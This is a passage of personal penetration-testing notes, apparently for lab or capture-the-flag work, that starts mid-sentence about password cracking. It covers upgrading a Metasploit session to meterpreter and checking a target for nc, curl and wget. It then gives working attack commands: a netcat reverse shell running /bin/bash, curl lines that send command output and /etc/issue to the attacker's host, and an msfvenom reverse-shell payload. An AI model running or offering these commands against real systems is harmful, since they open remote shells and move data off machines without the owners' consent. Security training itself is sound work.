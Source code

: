 get that and run john to crack.


If we have a session already, we can upgrade to meterpreter session
by using:
```bash
	post/multi/manage/shell_to_meterpreter
	set session <number>
	set lport and lhost
	run
```


# Remote Code Executions

```bash
echo $PATH
	visit some of these locations and view what tools are there
is netcat present?
	which nc
is python present?
	which python
is curl installed?
	which curl
is wget installed?
	which wget
```

we can use these tools do get shell.

with netcat:
```bash
nc <IP> <port> -e /bin/bash
```

and listening in our kali
```bash
nc -lvnp <port>
```

## with CURL
In kali: 
```bash
nc -lvnp <port>
```

In target:
```bash
curl http://<our IP>:<port>
curl http://<our IP>:<port>/'whoami'
curl http://<our IP>:<port>/'id | base64'
curl http://<our IP>:<port>/file -T /etc/issue
```

We can try to upload a msfvenom payload to the machine.
msfvenom -p linux/x64/shell_reverse_tcp lhost=<our ip> lport=<port> -f elf -o <name>
